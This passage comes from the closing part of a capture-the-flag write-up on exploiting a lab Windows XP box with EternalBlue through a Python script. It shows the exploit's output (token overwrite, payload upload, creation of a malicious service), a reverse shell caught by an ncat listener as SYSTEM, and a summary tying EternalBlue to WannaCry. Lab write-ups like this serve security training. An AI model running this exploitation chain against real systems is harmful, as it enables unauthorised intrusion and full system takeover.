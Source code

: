 ```
current TOKEN addr: 0xe14e8b50
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe14e8bf0
overwriting token UserAndGroups
Sending file O438VQ.exe...
Opening SVCManager on 10.10.10.4.....
Creating service mBjD.....
Starting service mBjD.....

```

> NOTE: The NETBIOS connection will timeout, but this should not affect the reverse shell.

Back in the netcat listener, we have a shell as system.

```
Ncat: Connection from 10.10.10.4.
Ncat: Connection from 10.10.10.4:1031.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

This is a somewhat limited shell, but unlike with \*nix systems, it is not upgradable directly. For our purposes the shell is fine. We can navigate to the user and administrator's desktop folders and grab both the user and root flags.

## Summary

This is a fairly straight forward box and is a great box to learn about EternalBlue. It can be very easily exploited with Metasploits EternalBlue module, however, with a little bit of finessing were are able to exploit the target using a python script. EternalBlue was developed by the NSA and leaked into the public domain by the Shadow Brokers. Shortly after it's release it was used as part of the Wannacry ransomware program which caused havoc on systems in organisations such as the NHS in the UK and many others.

For more information regarding EternalBlue check out the following links:

{% embed url="https://en.wikipedia.org/wiki/EternalBlue" %}

{% embed url="https://en.wikipedia.org/wiki/WannaCry_ransomware_attack" %}



